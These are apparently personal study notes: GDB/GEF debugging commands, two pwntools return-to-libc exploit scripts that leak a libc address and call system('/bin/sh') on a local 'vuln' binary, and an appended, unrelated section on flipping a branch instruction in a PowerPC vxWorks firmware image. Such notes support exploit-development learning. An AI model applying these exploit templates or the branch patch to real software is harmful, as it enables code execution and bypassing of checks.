 # GDB/GEF Notes & Techniques

**<u>Getting symbols of table</u>**

```bash
readelf -s ./libc.so.6
```



**<u>Setting Breakpoints:</u>**

```bash
gef➤ b main
Breakpoint 1 at 0xa45c: file gitGrabber.cpp, line 239.
gef➤ run

#generally want to break at the RET at the bottom of a functions
gef➤ disassemble function_name
gef➤ b *0xret_instr_at_bottom_of_function
gef➤ c
```



**<u>Calling Functions:</u>**

```bash
gef➤  call function_name(0x12)
$2 = 0x7f43678f69b4 "3)\302\021\277\023\016\221\222\254'\343\271\323.\200b\252\203voM\a.ڼT\bjWKs"

#hexdumping 
gef➤  hexdump byte 0x7f43678f69b4 --size 32
0x00007f43678f69b4     33 29 c2 11 bf 13 0e 91 92 ac 27 e3 b9 d3 2e 80    3)........'.....
0x00007f43678f69c4     62 aa 83 76 6f 4d 07 2e da bc 54 08 6a 57 4b 73    b..voM....T.jWKs
```



**<u>Inspecting</u>**

```bash
#x for examine, g for 8 bytes, x for hex
gef➤ x/gx $rsp

#examine for string
gef➤ x/s 0xaddress

#printing function addr
gef➤ p system
gef➤ p puts

#check memory map
gef➤ vm

#seeing more instructions
gef➤ telescope 0xaddress 64

#searching for address
gef➤ grep /bin/sh
```



**<u>Pattern</u>**

```bash
gef➤ pattern create 200
gef➤ pattern offset $rsp
```





### Return to LIBC Rop Chain

RELRO = Global offset table is read and writable

NX enabled = can't just execute shellcode

No PIE = ASLR won't affect base address

```python
#!/usr/bin/env python3

from pwn import *

p = process("./vuln")
gdb.attach(p)

offset = 136
junk = b"A" * offset

"""
Plan of attack:
1. Use puts to leak to an address
2. Supply argument to puts
3. Use x64 calling conventions, which means rdi is first argument
4. After the lea, we can calculate offset between the function that was leaked and the function we want

"""

#found using ropgadget command
pop_rdi = 0xaddress
#found by going into the .got.plt in ghidra and finding setbuf
setbuf_at_got = 0xaddress
#found by going into the .plt to find puts
puts_at_plt = 0xaddress
#found in ghidra memory
back_to_main = 0xaddress

payload = [
    junk,
    #call puts to display/leak the true setbuf address
    p64(pop_rdi),
    p64(setbuf_at_got),
    p64(puts_at_plt),
    #jump back to safe place so we don't crash
    p64(back_to_main),
    
]

payload = b"".join(payload)
p.sendline(payload)

#store response of leak
p.recvline()

leak = u64(p.recvline().strip().ljust(8, b"\x00"))
log.info(f"{hex(leak)=}")

#readelf -s libc.so.6 | grep -i setbuf
setbuf_offset = 0xaddress
base_address_of_libc = leak - setbuf_offset
log.info(f"{hex(base_address_of_libc)=}")

#readelf -s libc.so.6 | grep system
system_offset = 0xaddress
system_address = base_address_of_libc + system_offset

#gef➤ grep /bin/sh, take that first address
#gef➤ vm, grab starting address of libc.so.6
#gef➤ p 0xgrep_address - 0xstarting_addr
bin_sh_offset = 0xaddress
bin_sh_address = base_address_of_libc + bin_sh_offset

#ROPgadget --binary vuln | grep ": ret"
ret_instr = 0xaddr

second_payload = [
    
    junk,
    p64(pop_rdi),
    p64(bin_sh_address),
    #needed for stack alignment, stack ptr's last hex digit must be 0, ret will pop from stack and make it 0, movdqu instruction with xxm registers will need alignment
    p64(ret_instr),
    p64(system_address),
    
]

second_payload = b"".join(second_payload)
p.sendline(second_payload)

p.interactive()
```

Last 4 nibbles need to be 0 for a libc address leak



### Using pwntools

```bash
#first fix and link the binary
#check with ldd
ldd vuln
#get this from github and run in directory with the binary and libc file
$ pwninit

#links to the generated linked
patchelf --set-interpreter ./ld-2.27.so ./vuln

```



```python
#!/usr/bin/env python3

from pwn import *

context.binary = binary = './vuln'

vuln_elf = ELF(binary)
libc = ELF('./libc.so.6')
vuln_rop = ROP(vuln_elf)
p = process('./vuln')

padding = b'A'*136

payload = padding

#returns list of all matching gadgets, just take first 1
payload += p64(vuln_rop.find_gadget(['pop rdi', 'ret'])[0])
payload += p64(vuln_elf.got.setbuf)
payload += p64(vuln_elf.plt.puts)
payload += p64(vuln_elf.symbols.main)

p.sendlineafter('text that you want the payload to send after', payload)
p.recvuntil('text that shows up before the leak\n')

leak = u64(p.recvline().strip().ljust(8, b'/0'))
log.info(f'{hex(leak)}')

libc.address = leak - libc.symbols.setbuf
log.info(f'Libc base => {hex(libc.address)}')

payload = padding
payload += p64(vuln_rop.find_gadget(['pop rdi', 'ret'])[0])
payload += p64(next(libc.search(b'/bin/sh')))
payload += p64(vuln_rop.find_gadget(['ret'])[0])
payload += p64(libc.symbols.system)

p.sendline(payload)

p.interactive()

```


We don't actually see that BNE instruction at the address. That's because we need to calculate it's runtime address of where it actually is. That math is as follows:
Offset of Code section relative to binary (.text addr) + (Absolute address of the instruction we want to change (0x0016806c) - Starting address of the code section (.text))
Using the command readelf we can get the .text section info
readelf -e vxWorks.st

ELF Header:
  Magic:   7f 45 4c 46 01 02 01 00 00 00 00 00 00 00 00 00 
  Class:                             ELF32
  Data:                              2's complement, big endian
  Version:                           1 (current)
  OS/ABI:                            UNIX - System V
  ABI Version:                       0
  Type:                              EXEC (Executable file)
  Machine:                           PowerPC
  Version:                           0x1
  Entry point address:               0x10000
  Start of program headers:          52 (bytes into file)
  Start of section headers:          35192516 (bytes into file)
  Flags:                             0x80000000, emb
  Size of this header:               52 (bytes)
  Size of program headers:           32 (bytes)
  Number of program headers:         1
  Size of section headers:           40 (bytes)
  Number of section headers:         13
  Section header string table index: 10

Section Headers:
  [Nr] Name              Type            Addr     Off    Size   ES Flg Lk Inf Al
  [ 0]                   NULL            00000000 000000 000000 00      0   0  0
  [ 1] .text             PROGBITS        00010000 000060 290e30 00 WAX  0   0 16
  [ 2] .data             PROGBITS        002a0e30 290e90 0470f0 00  WA  0   0  8
  [ 3] .bss              NOBITS          002e7f20 2d7f80 14bb10 00  WA  0   0  8
  [ 4] .debug_aranges    PROGBITS        00000000 2d7f80 0019a0 00      0   0  1
  [ 5] .debug_pubnames   PROGBITS        00000000 2d9920 019f3e 00      0   0  1
  [ 6] .debug_info       PROGBITS        00000000 2f385e 1cc0fd0 00      0   0  1
  [ 7] .debug_abbrev     PROGBITS        00000000 1fb482e 0475fd 00      0   0  1
  [ 8] .debug_line       PROGBITS        00000000 1ffbe2b 194004 00      0   0  1
  [ 9] .debug_frame      PROGBITS        00000000 218fe30 000014 00      0   0  4
  [10] .shstrtab         STRTAB          00000000 218fe44 00007e 00      0   0  1
  [11] .symtab           SYMTAB          00000000 21900cc 02a0d0 10     12 4626  4
  [12] .strtab           STRTAB          00000000 21ba19c 034f51 00      0   0  1
Key to Flags:
  W (write), A (alloc), X (execute), M (merge), S (strings), I (info),
  L (link order), O (extra OS processing required), G (group), T (TLS),
  C (compressed), x (unknown), o (OS specific), E (exclude),
  v (VLE), p (processor specific)

Program Headers:
  Type           Offset   VirtAddr   PhysAddr   FileSiz MemSiz  Flg Align
  LOAD           0x000060 0x00010000 0x00010000 0x2d7f20 0x423a30 RWE 0x10

 Section to Segment mapping:
  Segment Sections...
   00     .text .data .bss 

Now using the .text section's info we can finally do the hex calculation:

0016806c (absolute addr) – 00010000 (.text starting addr) = 15806C
15806C + 000060 (.text offset) = 1580CC

Thus 0x1580CC is where the BNE instruction will be in the hex.
The BNE instruction can be modified to a BEQ instruction using vim and xxd:
4082 0014 to 4182 0014
